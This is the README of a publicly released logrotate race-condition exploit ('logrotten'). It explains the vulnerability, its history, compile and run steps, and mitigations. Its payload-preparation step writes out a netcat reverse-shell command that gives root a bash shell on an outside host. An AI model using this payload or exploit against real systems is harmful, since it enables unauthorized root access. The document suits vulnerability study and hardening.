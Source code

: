 # logrotten - a logrotate exploit

## Brief description
  - logrotate is prone to a race condition vulnerability when it's exectued with
    "create"-option.
  - If logrotate is executed as root, with the "create"-option and the user
    is in control of the logfile path, it is possible to abuse a race-condition 
    to write files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
  - This vulnerability was reported by Marc Haber at the debian bug report
    ( https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=400198 )
  - and an issue was opened at the logrotate github-repository by cgzones
    ( https://github.com/cgzones )
  - This vulnerability was also a challenge at the 35c3 CTF 
    ( https://ctftime.org/event/718 )
  - A detailed description and a PoC of this challenge was written by the 
  - nsogroup ( https://blog.nsogroup.com/logrotate-zajebiste-500-points/ )

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; /bin/nc -e /bin/bash myhost 3333 &; fi" > payloadfile
```

## Run exploit
```
./logrotten /tmp/log/pwnme.log payloadfile
```

## Mitigation
  - make sure that logpath is owned by root
  - or use option "nocreate"

## Author
  - Wolfgang Hotwagner

## Contact
  - https://tech.feedyourhead.at


